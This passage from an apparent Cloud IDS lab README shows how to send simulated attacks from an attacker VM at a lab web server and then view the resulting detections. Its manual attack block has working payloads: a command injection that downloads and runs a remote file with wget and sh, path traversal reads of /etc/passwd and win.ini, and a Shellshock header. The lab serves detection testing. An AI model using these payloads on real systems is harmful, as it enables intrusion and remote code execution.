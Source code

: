 ### 2. Run Attack Simulations

Execute the attack simulation script:
```bash
chmod +x simulate-attacks.sh
./simulate-attacks.sh
```

Or run manual attacks:
```bash
# SSH to attacker VM
gcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap

# Run attack commands
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
curl http://192.168.10.20/?item=../../../../WINNT/win.ini
curl http://192.168.10.20/eicar.file
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical

# Exit attacker VM
exit
```

## Viewing Threat Detection Results

1. Navigate to **Network Security > Cloud IDS** in the Google Cloud Console
2. Click the **Threats** tab to view detected threats
3. Click **More** > **View threat details** for detailed analysis
4. Click **More** > **View threat logs** to see logs in Cloud Logging

## Cleanup

To avoid ongoing charges, clean up the resources:
```bash
chmod +x cleanup.sh
./cleanup.sh
```

## Security Considerations

- VMs are created without public IP addresses for security
- IAP (Identity-Aware Proxy) is used for secure SSH access
- Cloud NAT provides outbound internet access for updates
- Firewall rules are restrictive and purpose-built

## Troubleshooting

### Common Issues
